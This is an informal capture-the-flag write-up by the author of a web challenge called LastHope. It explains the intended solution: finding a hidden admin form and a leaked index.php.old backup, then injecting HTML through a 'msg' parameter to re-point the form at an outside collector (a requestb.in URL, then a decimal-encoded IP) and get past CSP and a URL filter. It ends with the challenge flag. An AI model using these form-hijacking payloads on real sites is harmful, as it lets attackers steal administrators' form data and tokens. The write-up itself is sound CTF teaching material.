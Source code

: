Hello ALL , its me TnMch , it was really amazing event when i was helping geek guys to make this ctf cool and enjoy hacking :D

So , when i was building some task , I get the idea of this LastHope task that need a lot of skills 

So the task was first sign in/out page where you can create you account and login to the home page 


![image](https://user-images.githubusercontent.com/7364615/28757581-5ce51b22-7586-11e7-95b1-ba17d50a7e95.png)


Then when you login there is home and contact page with some fun picture :D

![image](https://user-images.githubusercontent.com/7364615/28757606-db10c26c-7586-11e7-9ee7-b5876fac757b.png)

![image](https://user-images.githubusercontent.com/7364615/28757620-1090f538-7587-11e7-8166-677c1262095c.png)



I puted this picture to give the player the chance to look more and dont focus only in this page 

So if you look in source code of home page you will see hidden form :p


![image](https://user-images.githubusercontent.com/7364615/28757628-40839124-7587-11e7-8679-90aa94441854.png)


so here where we start look deeper :p

its msg parameter which will echo anything in the home page 

![image](https://user-images.githubusercontent.com/7364615/28757646-9cb669ee-7587-11e7-8b3c-efdfb70fbffb.png)

but wait :D there is something i just added in header for smart guys :D 

![image](https://user-images.githubusercontent.com/7364615/28757649-c9fd1a38-7587-11e7-8849-494c308dee44.png)


CSP default-src 'self' so no chance to load any script into the home page ! :D did that means no chance for XSS!!

no wait lets check more always something is missing there 

using some cool staff we can get backup file /index.php.old


![image](https://user-images.githubusercontent.com/7364615/28757673-74b5655c-7588-11e7-87a9-fc52b1b54083.png)

So here we can understand that there is hidden form for admin only 

There is csrf token also , so first csp and then csrf LOOL , maybe many player will said so what we can do here its all over

 <input type="hidden" name="csrf_token" value="{$csrf_token}" />
 
 
 But there is always hope for you guys as the picture said :D
 
 our msg payload is just printed after the form balise :D so what we can do!!
 
 Did you know guys we can do alot of staff here :p
 
 Redirect submit form to our url and steal form data will not be something good :p 
 
 so if we send this url to admin :
 
 ```
 http://34.253.165.46/LocalHope/home.php?msg=</form><form method="GET" action="https://requestb.in/xxxxxx">
 ```
 
 The form will be changed to the new action , and here we can control over the form and get the data to our link 
 
 But as i am so bad :D i add some filtre here and i block any second url send with the link so no one can get data there XD
 
 But smart guys and good player will not stop here and can do more 
 
 Changing our ip url to decimal can do the job for us and bypass the filtre 
 
 exp :  34.253.165.46 will be  587048238
 
 So our link can be 
 ```
  http://34.253.165.46/LocalHope/home.php?msg=</form><form method="GET" action="http://587048238:8080">
```
And all filtre bypassed :D 

YUP , just we get the flag

![image](https://user-images.githubusercontent.com/7364615/28757773-6c1176dc-758a-11e7-91d7-aa17fdc5a8db.png)


FLAG : Bugs_Bunny{Oh_You_FFirst_Find_Me_And_Bypass_My_CSP_:((!!}


HOPE YOU GUYS ENJOYED MY WEB TASK :D 
see you next year


BTW it was soled by only 2 team : 

![image](https://user-images.githubusercontent.com/7364615/28776758-5e7edbe0-75f8-11e7-88e6-8756a269c6ec.png)

